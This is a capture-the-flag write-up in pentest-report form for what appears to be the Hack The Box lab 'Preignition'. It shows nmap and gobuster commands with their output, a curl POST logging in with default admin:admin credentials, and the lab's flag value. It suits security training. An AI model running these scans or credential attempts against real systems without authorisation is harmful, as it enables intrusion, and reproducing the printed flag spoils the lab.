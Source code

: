 # HTB Starting Point Lab Walkthrough: Preignition (Linux Box)

## Executive Summary

- **Lab Objective**: Enumerate and exploit a web service on the target machine to access an admin panel and retrieve a flag, simulating basic web reconnaissance and credential testing.
- **Target IP**: 10.129.94.73 (initial enumeration), 10.129.94.105 (flag retrieval due to instance reset)
- **Key Findings**: Identified an nginx 1.14.2 web server on port 80 hosting an admin login page (`admin.php`). Default credentials (`admin:admin`) granted access to a protected page containing the flag.
- **Impact**: In a real-world scenario, default credentials on an admin panel could allow unauthorized access to sensitive functionality, potentially leading to full system compromise.
- **Recommendations**: Remove default credentials, enforce strong password policies, and regularly audit web applications for exposed endpoints.
- **Completion Date**: July 13, 2025
- **Tools Used**: Nmap, Gobuster, curl, web browser (on Kali Linux)

## Methodology and Scope

This walkthrough follows a standard reconnaissance and exploitation process for the HTB Starting Point lab "Preignition." The scope was limited to port scanning, web directory enumeration, and exploitation of a web application on the provided target IP. No advanced exploitation or privilege escalation was required.

Steps were performed in a controlled lab environment using default Kali tools. Assumptions: Target is a Linux machine running an nginx web server. Directory brute-forcing (dir busting) was used to identify hidden pages, followed by manual credential testing.

## Findings

### Finding 1: Web Service Identification

- **Description**: An HTTP service running on nginx 1.14.2 was identified on port 80, indicating a web server accessible for further enumeration.
- **Severity**: Informational (baseline enumeration).
- **Steps to Reproduce**:
    1. Perform a targeted port scan with version detection using Nmap:
        
        ```bash
        nmap -sV -p 80 10.129.94.73
        ```
        
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 08:45 EDT
        Nmap scan report for 10.129.94.73
        Host is up (0.018s latency).
        PORT   STATE SERVICE VERSION
        80/tcp open  http    nginx 1.14.2
        Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds
        ```
        
- **Impact**: Confirms an active web server, enabling targeted directory and file enumeration.
- **Evidence**: Nmap scan results above.
- **Remediation**: N/A (informational).

### Finding 2: Hidden Web Page Discovery via Directory Brute-Forcing

- **Description**: Directory brute-forcing (dir busting) with Gobuster revealed a hidden PHP page (`admin.php`) on the web server, indicating a potential administrative interface.
- **Severity**: Medium (exposed admin page).
- **Steps to Reproduce**:
    1. Run Gobuster with the `dir` mode and `-x php` flag to search for PHP files, using a wordlist:
        
        ```bash
        gobuster dir -x php -u 10.129.94.73 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -v | tee gobuster_results.txt
        ```
        
    2. Filter results for successful hits:
        
        ```bash
        grep "Status: 200" gobuster_results.txt
        ```
        
        Output:
        
        ```bash
        Found: /admin.php (Status: 200) [Size: 999]
        ```
        
- **Impact**: Exposed admin pages without authentication checks are prime targets for unauthorized access, potentially leading to sensitive data exposure.
- **Evidence**: Gobuster output above.
- **Remediation**: Restrict access to administrative pages; implement authentication or IP whitelisting.

### Finding 3: Unauthenticated Access via Default Credentials

- **Description**: The `admin.php` page presented an "Admin Console Login" form. Default credentials (`admin:admin`) granted access to a protected page displaying the flag. The same result was achievable via a `curl` POST request.
- **Severity**: Critical (unauthenticated admin access).
- **Steps to Reproduce**:
    1. Access the login page in a browser (note: IP changed to 10.129.94.105 due to instance reset):
        
        ```bash
        http://10.129.94.105
        ```
        
    2. Enter `admin:admin` in the login form, redirecting to a page displaying the flag: `6483bee07c1c1d57f14e5b0717503c73`.
    3. Alternatively, use `curl` to achieve the same result:
        
        ```bash
        curl -d "username=admin&password=admin" -X POST http://10.129.94.105/admin.php -L --cookie-jar cjar.txt
        ```
        
        Output: Redirected page content containing the flag.
- **Impact**: Default credentials on an admin panel allow full access to sensitive functionality, simulating a real-world system compromise.
- **Evidence**: Successful login and flag retrieval (`6483bee07c1c1d57f14e5b0717503c73`).
- **Remediation**: Replace default credentials with strong, unique passwords; implement multi-factor authentication for admin interfaces.

## Recommendations

- Enforce strong password policies for all web application accounts, especially administrative ones.
- Restrict access to port 80 and sensitive pages (e.g., `/admin.php`) using firewall rules or IP whitelisting.
- Regularly scan for exposed web directories and files using tools like Gobuster or dirb.
- For labs like this, practice using tools like Burp Suite to intercept and analyze web requests for deeper exploitation.

## Appendices

- **Raw Notes/Logs**: Gobuster output saved to `gobuster_results.txt` for analysis.
- **Screenshots**: (Add here if available, e.g., browser login page or flag display.)
- **Key Takeaways**:
    - Directory brute-forcing is critical for uncovering hidden web endpoints.
    - Logging tool output (e.g., `tee`) and parsing with `grep` streamlines analysis.
    - Testing default credentials is a high-priority step for login forms.
    - Tools like `curl` can replicate browser-based attacks, preserving session data with cookies.